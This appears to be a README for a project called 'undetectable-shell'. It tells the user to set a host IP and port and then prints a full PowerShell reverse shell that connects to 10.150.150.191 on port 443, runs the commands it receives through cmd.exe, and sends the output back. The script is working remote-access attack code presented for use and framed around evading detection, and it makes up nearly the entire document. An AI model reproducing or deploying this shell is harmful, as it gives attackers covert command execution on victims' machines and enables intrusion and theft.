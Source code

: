 ### undetectable-shell


## You need to replace HOST_IP & HOST_PORT in reverse-detected.ps1

## like :

$test='$socket = new-object System.Net.Sockets.TcpClient("10.150.150.191", 443); if($socket -eq $null){exit 1}$stream = $socket.GetStream();$writer = new-object System.IO.StreamWriter($stream);$buffer = new-object System.Byte[] 1024;$encoding = new-object System.Text.AsciiEncoding;do{$writer.Flush();$read = $null;$res = "" while($stream.DataAvailable -or $read -eq $null) {$read = $stream.Read($buffer, 0, 1024)}$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");if(!$out.equals("exit")){$args = "";if($out.IndexOf(" ") -gt -1){$args = $out.substring($out.IndexOf(" ")+1);$out = $out.substring(0,$out.IndexOf(" "));if($args.split(" ").length -gt 1){$pinfo = New-Object System.Diagnostics.ProcessStartInfo;$pinfo.FileName = "cmd.exe";$pinfo.RedirectStandardError = $true;$pinfo.RedirectStandardOutput = $true;$pinfo.UseShellExecute = $false;$pinfo.Arguments = "/c $out $args";$p = New-Object System.Diagnostics.Process;$p.StartInfo = $pinfo;$p.Start() | Out-Null;$p.WaitForExit();$stdout = $p.StandardOutput.ReadToEnd();$stderr = $p.StandardError.ReadToEnd() if ($p.ExitCode -ne 0) {$res = $stderr} else {$res = $stdout}} else {$res = (&"$out" "$args") | out-string;}} else {$res = (&"$out") | out-string;}if($res -ne $null){ $writer.WriteLine($res)}}}; While (!$out.equals("exit"))$writer.close();$socket.close();$stream.Dispose()'

